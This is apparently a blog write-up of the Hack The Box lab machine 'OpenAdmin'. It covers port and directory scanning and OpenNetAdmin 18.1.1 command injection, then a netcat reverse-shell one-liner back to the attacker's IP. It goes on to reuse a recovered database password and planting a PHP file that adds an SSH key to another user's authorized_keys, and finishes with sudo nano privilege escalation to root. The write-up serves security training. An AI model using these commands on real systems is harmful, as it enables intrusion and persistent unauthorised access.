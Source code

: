 ```yaml
---
layout: post
title:  "OpenAdmin"
date:   2020-02-07 18:30:00 +0100
categories: hackthebox
---
```

OpenAdmin
===
![OpenAdmin](file:///home/lassa97/Pictures/OpenAdmin.png)

---
### Nmap
We start with an `nmap` scan:

> root@misty:~# nmap -sV -sC -oA OpenAdmin 10.10.10.171

```
# Nmap 7.80 scan initiated Wed Jan  8 18:44:48 2020 as: nmap -sV -sC -oA OpenAdmin 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  8 18:46:21 2020 -- 1 IP address (1 host up) scanned in 92.99 seconds
```

We find `ssh` on port 22 and `http` on port 80.

---

### Web Enumeration
We use `gobuster` to find some useful directories that we can exploit:

> root@misty:~# gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o OpenAdmin.dir

```
===============================================================
[+] Url:            http://10.10.10.171
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/08 17:53:21 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
===============================================================
2020/01/08 18:51:04 Finished
===============================================================
```
Going to http://10.10.10.171/music/ shows a login button. We click it and we are redirected to [this](http://10.10.10.171/ona/). It is the OpenNetAdmin Tool running the 18.1.1 version.

---

### Command Injection
Doing some research, we find there is a Remote Code Execution vulnerability (OpenNetAdmin 18.1.1 - Command Injection Exploit).

We take the [source code](https://packetstormsecurity.com/files/155406/opennetadmin1811-exec.txt) and we create a reverse shell. First, we open a local port and then we write this command as input of the exploit.

> root@misty:~# nc -lvnp 51111
> root@misty:~# ./exploit.sh http://10.10.10.171/ona/
> $ mkfifo /tmp/flipper; nc 10.10.15.182 51111 < /tmp/flipper | /bin/sh > /tmp/flipper; rm /tmp/flipper;

---

### Jimmy

After some enumeration, we find some creds (__jimmy:n1nj4w4rri0R!__) in */opt/ona/www/local/config/database_settings.inc.php*
Also, we find two users (__jimmy__ and __joanna__) and a common group (__internal__).
Now, we connect via `ssh` using the creds of __jimmy__:

> root@misty:~# ssh jimmy@10.10.10.171

---

### Joanna

Once we are logged, we find three local ports open.

> jimmy@openadmin:~$ netstat -nputa

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -
```

We have the port 53 (*DNS*), the port 3306 (*MySQL*) and the port 52846. Then, we find under */var/www* directory a folder called __internal__. The user __jimmy__ is the owner and the group __internal__ has all the permissions in that directory. Inside it, we find the source code of the *PHP*s that are served in the port 52846.
1) __index.php__: Has a login form with the SHA512 of another pass of __jimmy__.
2) __main.php__: Displays the private key of __joanna__ using *shell_exec()*.
3) __logout.php__: A simple logout.

We decide to create a `ssh` tunnel to display it in our browser:

> root@misty:~# ssh jimmy@10.10.10.171 -L 55555:127.0.0.1:52846

And going to http://127.0.0.1:55555, we see the login form. Because we have all the permissions in the __internal__ directory, we've decide to create our own PHP that adds a public key to the *authorized_keys* of __joanna__ using the *shell_exec()* function to execute commands.

__flipper.php__

```php
<?php
    shell_exec("cat /var/www/internal/fake.txt >> /home/joanna/.ssh/authorized_keys");
    $keys = shell_exec("cat /home/joanna/.ssh/authorized_keys");
    echo "<pre>" . $keys . "</pre>";
 ?>
```

Then, we generate a new `ssh` key using `ssh-keygen` and we paste the public key inside *fake.txt*. We change the group own of *flipper.php* to __internal__ using `chgrp`. After that, we go to http://127.0.0.1:55555/flipper.php and we can see that we have added our public key to the *authorized_keys* of __joanna__.

Finally, we login with `ssh` using our private key and we have the user flag.

> root@misty:~# ssh joanna@10.10.10.171 -i OpenAdmin.key
> joanna@openadmin:~$ cat /home/joanna/user.txt
`HTB{c9b2cf07d40807e62af62660f0c81b5f}`

---

### Root
We are going to use [GTFOBins](https://gtfobins.github.io/) to gain privilegies. We find that __joanna__ can edit the file */opt/priv* owned by __root__ without password.

> joanna@openadmin:~$ sudo -l
`sudo /bin/nano /opt/priv`

Following the instructions for `nano`, we have our root shell and we can own the root flag.

> root@openadmin:~# cat /root/root.txt
`HTB{2f907ed450b361b2c2bf4e8795d5b561}`
